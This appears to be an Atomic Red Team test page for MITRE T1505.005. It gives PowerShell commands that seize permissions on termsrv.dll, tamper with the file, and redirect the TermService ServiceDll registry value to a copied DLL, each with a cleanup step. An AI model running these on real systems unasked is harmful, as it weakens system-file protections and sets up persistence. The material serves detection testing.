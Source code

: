 ```yaml
---
tags: [T1505_005, atomic_test]
filename: "[[T1505.005 - Server Software Component- Terminal Services DLL]]"
---
```

# T1505.005 - Server Software Component: Terminal Services DLL

## Atomic Test #1 - Simulate Patching termsrv.dll
Simulates patching of termsrv.dll by making a benign change to the file and replacing it with the original afterwards.
Before we can make the modifications we need to take ownership of the file and grant ourselves the necessary permissions.

**Supported Platforms:** Windows


**auto_generated_guid:** 0b2eadeb-4a64-4449-9d43-3d999f4a317b






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$termsrvDll = "C:\Windows\System32\termsrv.dll"

$ACL = Get-Acl $termsrvDll
$permission = "Administrators","FullControl","Allow"
$accessRule = New-Object System.Security.AccessControl.FileSystemAccessRule $permission
$ACL.SetAccessRule($accessRule)
Set-Acl -Path $termsrvDll -AclObject $ACL

Copy-Item -Path "C:\Windows\System32\termsrv.dll" -Destination "C:\Windows\System32\termsrv_backup.dll" -ErrorAction Ignore
Add-Content -Path "C:\Windows\System32\termsrv.dll" -Value "`n" -NoNewline -ErrorAction Ignore
Move-Item -Path "C:\Windows\System32\termsrv_backup.dll" -Destination "C:\Windows\System32\termsrv.dll" -Force -ErrorAction Ignore
```

#### Cleanup Commands:
```powershell
Move-Item -Path "C:\Windows\System32\termsrv_backup.dll" -Destination "C:\Windows\System32\termsrv.dll" -Force -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #2 - Modify Terminal Services DLL Path
This atomic test simulates the modification of the ServiceDll value in HKLM\System\CurrentControlSet\services\TermService\Parameters. This technique may be leveraged by adversaries to establish persistence by loading a patched version of the DLL containing malicious code.

**Supported Platforms:** Windows


**auto_generated_guid:** 18136e38-0530-49b2-b309-eed173787471






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$termsrvDll = "C:\Windows\System32\termsrv.dll"

$ACL = Get-Acl $termsrvDll
$permission = "Administrators","FullControl","Allow"
$accessRule = New-Object System.Security.AccessControl.FileSystemAccessRule $permission
$ACL.SetAccessRule($accessRule)
Set-Acl -Path $termsrvDll -AclObject $ACL

Copy-Item -Path $termsrvDll -Destination "$HOME\AtomicTest.dll"

$newServiceDll = "$HOME\AtomicTest.dll"

$registryPath = "HKLM:\System\CurrentControlSet\services\TermService\Parameters"

# Check if the registry key exists
if (Test-Path -Path $registryPath) {
    # Modify the ServiceDll value in the registry
    Set-ItemProperty -Path $registryPath -Name "ServiceDll" -Value $newServiceDll
    Write-Host "ServiceDll value in the registry has been updated to: $newServiceDll"
} else {
    Write-Host "Registry key not found. Make sure the 'TermService\Parameters' key exists."
}
```

#### Cleanup Commands:
```powershell
Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\services\TermService\Parameters" -Name "ServiceDll" -Value "C:\Windows\System32\termsrv.dll"
```





<br/>
